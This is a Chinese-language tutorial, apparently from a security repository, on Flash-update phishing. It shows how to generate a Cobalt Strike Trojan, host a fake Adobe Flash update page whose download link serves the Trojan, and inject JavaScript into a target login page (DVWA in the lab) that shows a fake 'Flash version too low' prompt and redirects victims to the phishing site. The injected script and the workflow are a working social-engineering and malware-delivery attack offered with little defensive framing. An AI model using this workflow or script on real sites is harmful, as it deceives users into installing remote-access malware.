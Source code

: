 # 1.Flash网页钓鱼

## 简介

Flash钓鱼攻击是一种网络攻击手段，旨在欺骗用户访问伪造的Flash更新页面，并诱使他们下载并安装恶意软件。这种攻击通常利用用户对Flash更新的需求，以及对合法更新网站的信任。攻击者通常会模仿Adobe Flash Player的官方更新页面，以提高诱骗成功率



## 步骤

### 1.CS生成木马

运行Cobalt Strike生成可执行木马，并将其放到伪造的flash网站的根目录，用于被受害用户下载

![image-20230423173430386](钓鱼大师/image-20230423173430386.png)



### 2.部署flash钓鱼页面

部署flash钓鱼页面，此处我使用phpstudy进行部署

<img src="钓鱼大师/image-20230423202106062.png" alt="image-20230423202106062" style="zoom:67%;" />	



修改flash钓鱼页面`index.html`，在“立即下载处”将超链接修改成木马的所在地址

![image-20230423173530134](钓鱼大师/image-20230423173530134.png)



### 3.目标页面置入JS代码

此处我以dvwa靶场来作为目标页面, 在dvwa的登录页面插入如下`javascript`代码, 用于实现弹框并跳转至flash钓鱼网址

```html
<script>
    function redirectToFlashUpdate() {
      // 指定要跳转的URL链接
      const flashUpdateUrl = 'http://www.flash.com:81’;
      
      // 创建一个弹框，提示用户Flash版本过低
      const userResponse = confirm('Flash版本过低，请到Flash官网进行升级。');

      // 如果用户点击确定按钮，则跳转到指定的URL链接
      if (userResponse) {
        window.location.href = flashUpdateUrl;
      }
    }

    // 在页面加载完成后执行redirectToFlashUpdate函数
    window.onload = redirectToFlashUpdate;
</script>
```

![image-20230423201251166](钓鱼大师/image-20230423201251166.png)



## 操作演示

访问dvwa页面，页面出现弹框，此处询问是否升级flash，若点击确定，则会下载我们准备的CS木马

<img src="钓鱼大师/image-20230423201444210.png" alt="image-20230423201444210" style="zoom:67%;" />	



